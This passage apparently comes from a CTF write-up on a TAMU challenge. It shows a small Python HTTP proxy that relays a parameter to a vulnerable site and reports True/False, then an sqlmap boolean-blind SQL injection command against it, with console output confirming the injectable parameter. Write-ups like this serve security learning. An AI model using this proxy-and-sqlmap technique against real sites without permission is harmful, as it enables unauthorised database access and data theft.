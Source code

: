 ```python
        self._set_headers()
        self.wfile.write("<html><body><h1>POST!</h1></body></html>")
        
def run(server_class=HTTPServer, handler_class=S, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print ('Starting httpd...')
    httpd.serve_forever()

if __name__ == "__main__":
    from sys import argv

    if len(argv) == 2:
        run(port=int(argv[1]))
    else:
        run()
```

It launches a webserver which accepts a single parameter and passes it on to our vulnerable website. It later parses the response and decides if it is a true response or a false one. This is reflected by printing "True" or "False" in the body. In addition, SQLMap gets a "200 OK" response like it's used to.

Now, the SQLMap command to be used is:
```
sqlmap -u "http://localhost:8000/?*" --dbms=MySQL --technique=B
```

In the command, I've explicitly specified the technique to be used: Boolean blind attacks. 

After running the attack, I finally got:
```console
root@kali:/media/sf_CTFs/tamu/Onboarding_Checklist# sqlmap -u "http://localhost:8000/?*" --dbms=MySQL --technique=B
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.5#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 00:15:13

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] y
[00:15:15] [INFO] testing connection to the target URL
[00:15:16] [INFO] heuristics detected web page charset 'ascii'
[00:15:16] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[00:15:16] [INFO] testing if the target URL content is stable
[00:15:17] [INFO] target URL content is stable
[00:15:17] [INFO] testing if URI parameter '#1*' is dynamic
[00:15:17] [INFO] confirming that URI parameter '#1*' is dynamic
[00:15:18] [INFO] URI parameter '#1*' is dynamic
[00:15:19] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[00:15:19] [INFO] testing for SQL injection on URI parameter '#1*'
[00:15:19] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[00:15:22] [INFO] URI parameter '#1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
[00:15:22] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 12 HTTP(s) requests:
---
```